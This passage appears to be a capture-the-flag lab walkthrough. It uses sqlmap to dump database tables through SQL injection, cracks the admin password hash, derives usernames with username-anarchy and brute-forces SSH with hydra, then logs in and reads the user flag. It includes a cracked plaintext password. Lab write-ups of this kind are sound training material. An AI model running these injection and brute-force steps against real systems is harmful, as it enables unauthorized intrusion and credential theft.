 ```
$ /opt/Tools/sqlmap-dev/sqlmap.py -u "http://localhost:8081/?id=1" --batch --level 5 --risk 3 -T users -dump

+----+-------+----------------------------------+----------+
| id | role  | password                         | username |
+----+-------+----------------------------------+----------+
| 1  | admin | 0c090c365fa0559b151a43e0fea39710 | admin    |
+----+-------+----------------------------------+----------+

$ /opt/Tools/sqlmap-dev/sqlmap.py -u "http://localhost:8081/?id=1" --batch --level 5 --risk 3 -T answers -dump

+----+-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+---------+-------------+---------------+
| id | answer                                                                          | status  | answered_by | answered_date |
+----+-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+---------+-------------+---------------+
| 1  | Hello Json,\\n\\nAs if now we support PNG formart only. We will be adding JPEG/SVG file formats in our next version.\\n\\nThomas Keller                                       | PENDING | admin       | 17/08/2022    |
| 2  | Hello Mike,\\n\\n We have confirmed a valid problem with handling non-ascii charaters. So we suggest you to stick with ascci printable characters for now!\\n\\nThomas Keller | PENDING | admin       | 25/09/2022    |
+----+-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+---------+-------------+---------------+


```

So we got the admin's full name and hashed password, so let's try and crack it. It was fairly easy I went to a site called: https://crackstation.net/ and got the password which is: `denjanjade122566`. Now if you try to login with admin, it wouldn't work. We need to find how to shorten the full name to find the username.


There's a tool called `username-anarchy` that you can add a user's full name and the tool will output a couple combos with that name.

```

$ ./username-anarchy Thomas Keller > usernames.txt
$ hydra -L usernames.txt -p 'denjanjade122566' ssh://qreader.htb
[22][ssh] host: qreader.htb   login: tkeller   password: denjanjade122566

$ ssh tkeller@qreader.htb
password: denjanjade122566
tkeller@socket:~$ cat user.txt
58737f2c54d6a95a18d58a564698c07f

```

